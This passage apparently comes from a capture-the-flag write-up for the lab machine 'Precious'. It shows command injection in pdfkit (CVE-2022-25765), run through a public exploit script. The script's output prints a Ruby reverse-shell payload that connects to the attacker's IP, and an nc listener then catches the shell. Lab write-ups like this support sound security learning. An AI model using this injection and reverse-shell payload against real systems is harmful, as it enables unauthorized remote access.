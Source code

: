 ![](assets/Pasted%20image%2020250507160046.png)

So, adding `?name=%20`sleep 5`" -` to the URL, we can inject a command. Let's use the already made script.

```shell
$ python 51293.py -s 10.10.14.13 80 -w http://precious.htb -p url

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.13","80"))'`
LOCALIP: 10.10.14.13:80
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 80".
WEBSITE: http://precious.htb
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.
```

Start a listener with `nc`:

```shell
$ sudo rlwrap nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.189] 60590
whoami
ruby
```

